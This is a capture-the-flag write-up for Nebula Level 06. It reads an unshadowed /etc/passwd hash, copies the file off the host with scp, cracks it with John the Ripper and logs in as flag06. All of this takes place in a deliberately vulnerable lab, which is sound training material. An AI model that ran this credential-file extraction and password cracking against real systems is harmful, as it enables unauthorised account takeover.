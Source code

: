 # Nebula - Level 06

### About ###

>The flag06 account credentials came from a legacy unix system.
>
>To do this level, log in as the level06 account with the password level06. Files for this level can be found in /home/flag06.

### Solution ###

Since the exercise deals with credentials, the `/etc/passwd` file is a possible lead.

```
level06@nebula:~$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

`flag06`’s password is unshadowed, like the exercise suggested. The file is transfered to another machine in order to decrypt the password with  `john the ripper`.

```
root@kali:~# scp level06@nebula:/etc/passwd .

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


level06@192.168.1.61's password:
passwd                                                                              100% 2604     2.5KB/s   00:00
root@kali:~# john passwd
Created directory: /root/.john
Loaded 1 password hash (Traditional DES [128/128 BS SSE2-16])
hello            (flag06)
guesses: 1  time: 0:00:00:00 DONE (Sun Aug  2 03:28:25 2015)  c/s: 236050  trying: 123456 - Pyramid
Use the "--show" option to display all of the cracked passwords reliably
```

`john the ripper` finds the password hello. It is now possible to connect to the account `flag06` and execute `getflag`.

```
level06@nebula:~$ su flag06
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
